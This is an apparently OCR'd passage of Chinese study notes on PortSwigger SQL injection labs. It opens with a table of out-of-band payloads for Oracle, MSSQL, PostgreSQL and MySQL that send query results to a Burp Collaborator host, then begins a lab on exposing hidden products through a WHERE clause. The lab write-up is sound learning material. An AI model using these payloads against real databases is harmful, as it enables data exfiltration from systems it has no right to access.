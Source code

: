 | Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` |
| PostgreSQL | `create OR replace function f() returns void as $$declare c text;declare p text;beginSELECT into p (SELECT YOUR-QUERY-HERE);c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';execute c;END;$$ language plpgsql security definer;SELECT f();` |
| MySQL      | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

# SQL injection

## 一、隐藏商品

Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### 分析

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

```
示例：
一个显示不同类别产品的购物应用程序。当用户单击“礼品”类别时，其浏览器会请求 URL：
https://insecure-website.com/products?category=Gifts
 
SQL查询，以从数据库中检索相关产品的详细信息：
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 
此 SQL 查询要求数据库返回：
所有详细信息 （*）
从产品表
其中类别为礼品
并释放是 1
 
该限制用于隐藏未发布的产品。对于未发布的产品，大概为released = 1 released = 0
```

### 步骤

当我们访问

```http
https://0a5d007503c5bf1581290ca80050004e.web-security-academy.net/filter?category=Accessories
```
